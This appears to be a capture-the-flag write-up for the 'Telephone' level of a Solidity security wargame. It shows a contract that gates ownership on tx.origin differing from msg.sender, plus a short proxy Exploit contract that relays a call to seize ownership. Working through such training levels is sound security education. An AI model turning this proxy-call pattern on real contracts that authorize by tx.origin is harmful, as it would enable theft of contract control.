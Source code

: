 ## Telephone

### Contract

<details><summary>CLICK TO VIEW</summary>
<p>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

```

</p>
</details>

### Solution

This contract was quite interesting as it is an easier version of #3 but sheds light on a variety of little details I didn't know about. The objective
of this contract was mainly to make sure I understood:
- The difference between delegatecall and call (how context matters and how these two provide different values for tx.origin and msg.sender)
- The important difference between msg.sender and tx.origin

The solution of course was to use `call` as a proxy contract and to just relay the transaction. See below:

```solidity
contract Exploit {
    address public toExploit;

    constructor(address exploit) public {
        toExploit = exploit;
    }

    function hack() public {
        (bool status, bytes memory value) = toExploit.call(
            abi.encodeWithSignature("changeOwner(address)", tx.origin)
        );
    }
}
```

Very simple stuff. Cooleo!
